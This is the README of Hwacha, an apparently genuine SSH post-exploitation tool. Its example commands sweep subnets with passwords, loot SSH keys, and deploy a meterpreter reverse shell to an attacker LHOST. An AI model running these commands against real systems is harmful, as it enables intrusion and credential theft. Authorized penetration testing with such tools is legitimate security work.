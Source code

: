 # Hwacha
![alt tag](https://github.com/n00py/hwacha/blob/master/hwacha.png)

$python hwacha.py 
    &&&&     &&         &&        &&
&&&&&&&&&&&& &&         &&        &&      Created by Esteban Rodriguez   /~~\_
   &&&&&&    &&     &&&&&&&&&&    &&	  Web: https://www.n00py.io     /| '` *\
  &&    &&   &&&&&      &&        &&&&&        Twitter: @n00py1         \|  ___/
 &&      &&  &&&&&    &&  &&      &&&&&   _   _                     _
  &&    &&   &&      &&    &&     &&     | | | |                   | |
   &&&&&&    &&    &&&      &&&   &&     | |_| |__      ____ _  ___| |__   __ _
     &&      &&   &&          &&  &&     |  _  |\ \ /\ / / _` |/ __| '_ \ / _` |
&&&&&&&&&&&&&&&                   &&     | | | | \ V  V / (_| | (__| | | | (_| |
             &&                   &&     \_| |_/  \_/\_/ \__,_|\___|_| |_|\__,_| 
To run commands, use -x [COMMAND]
to run modules, use -m [MODULE]
to specify module options, use -o [ARG=ARG ARG=ARG]
to see all available modules, use -L
Example usage:
python hwacha.py -t 192.168.1.1/24 -u admin  -p password
python hwacha.py -t 192.168.1.100-200 -u admin  -p password -m keys
python hwacha.py -t 192.168.1.100-200 -u admin  -i loot/keys/192.168.1.101/id_rsa -x id
python hwacha.py -t 192.168.1.123 -u admin  -p password -m meterpreter -o "LPORT=4444 LHOST=192.168.1.150 TYPE=64"
